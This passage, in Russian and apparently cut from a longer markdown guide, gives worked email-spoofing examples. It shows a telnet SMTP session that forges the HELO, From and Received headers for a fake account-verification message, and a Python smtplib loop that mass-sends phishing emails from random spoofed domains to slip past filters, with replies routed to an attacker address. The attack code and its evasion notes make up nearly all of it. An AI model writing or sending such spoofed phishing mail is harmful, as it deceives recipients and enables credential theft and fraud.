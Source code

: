    - Добавлены заголовки `Reply-To` и `X-Mailer` для усложнения анализа.
   - Используется поддельный HELO-домен.

4. **Ошибки**:
   - Сервер может отклонить письмо, если включена проверка SPF/DKIM.
   - Неправильный формат заголовков может привести к некорректной доставке.

### Пример 2: Ручная отправка через telnet с манипуляцией полем Received

1. **Цель**: отправить письмо вручную через telnet с подделкой цепочки серверов.
2. **Шаги**:
   ```plaintext
   telnet smtp.example.com 25
   HELO malicious.com
   MAIL FROM:<spoofed@trusted.com>
   RCPT TO:<victim@example.com>
   DATA
   Received: from trusted.com (192.0.2.1) by victim.com; Mon, 25 Sep 2023 10:00:00 +0000
   From: "Trusted Support" <spoofed@trusted.com>
   To: victim@example.com
   Subject: Urgent: Account Verification Required
   Reply-To: attacker@malicious.com

   This is a spoofed email with a manipulated Received header.
   .
   QUIT
   ```
3. **Особенности**:
   - Добавлено поддельное поле `Received` для сокрытия реального пути сообщения.
   - Используется поддельный HELO-домен.

4. **Ошибки**:
   - Сервер может отклонить соединение, если включена проверка HELO-домена.
   - Неправильный формат поля `Received` может выдать подделку.

### Пример 3: Использование Python для массовой рассылки с поддельными доменами

1. **Цель**: отправить серию писем с поддельными доменами для обхода фильтров.
2. **Код**:
   ```python
   import smtplib
   from random import choice

   sender_domains = ["trusted.com", "secure.com", "official.com"]
   recipient = "victim@example.com"
   subject = "Action Required"
   body = "Your account has been compromised. Please reset your password."

   for _ in range(10):  # Отправляем 10 писем
       sender = f"spoofed@{choice(sender_domains)}"
       headers = f"""From: "Support Team" <{sender}>
       To: {recipient}
       Subject: {subject}
       Reply-To: attacker@malicious.com
       """

       message = headers + "\n" + body

       with smtplib.SMTP('smtp.example.com', 25) as server:
           server.helo('malicious.com')
           server.sendmail(sender, recipient, message)
   ```
3. **Особенности**:
   - Используются случайные домены для усложнения анализа.